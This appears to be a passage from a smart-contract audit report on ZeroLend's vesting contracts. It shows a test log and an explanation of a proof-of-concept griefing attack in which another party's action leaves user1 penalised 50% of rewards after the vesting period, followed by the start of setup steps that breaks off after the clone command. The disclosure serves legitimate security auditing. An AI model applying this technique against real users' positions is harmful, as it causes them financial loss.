 ```
After distribute zero balance of varTokenGauge:  74999999999999999994n
The reward of the user1:  0n
Address of user1  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
LastTokenId:  1n
The address of the owner of the lastTokenId:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
Execute the griefing attack
Call getReward to get the reward of the user1
LastTokenId:  2n
The address of the owner of the lastTokenId:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710048507n,
  0n,
  20667989410000n,
  0n,
  0n,
  7776000n,
  1710048507n,
  true,
  2n
]
The pending reward of the user1:  20667989410000n
The user1 call the claim function of the vestZeroNFT contract to claim tokenID of Ant
Zero balance of user1 after griefing attack 99999999880000000000000000000n
Current timestamp 1710048507
Mine 7776001 blocks with interval of 1 second
Current timestamp 1717824508
Zero balance of user1:  99999999880000000000000000000n
Zero balance of user1 after griefing attack 99999999880000010333994705000n
Zero amout receive after claim  10333994705000n
Zero balance of vestZeroNFT after contract 0n
The unclaimed amount of the tokenID 0n
    ✔ Griefing attack to cause rewards of users to be locked (466ms)

```

Test Log explanation: 

So Pre-condition: User1 has aToken balance != 0 and the rewards of user1 and zero token is != 0. 

In this POC, the reward amount of user 1 is: 20667989410000 

Now after the time 7776001 that is the time passed the LinearDuration of the tokenNFT of ZeroVestedNFT, the user1 claim the token, user1 still suffer the penalty amount. 

After claim, the user1 get zero token amout: 10333994705000 

This amount is = 20667989410000 /2 so means that the zero token amount = 50% of the reward. 



To run the POC, 

Step 1: 
First clone the governance repository: 
```
git clone https://github.com/zerolend/governance.git
```
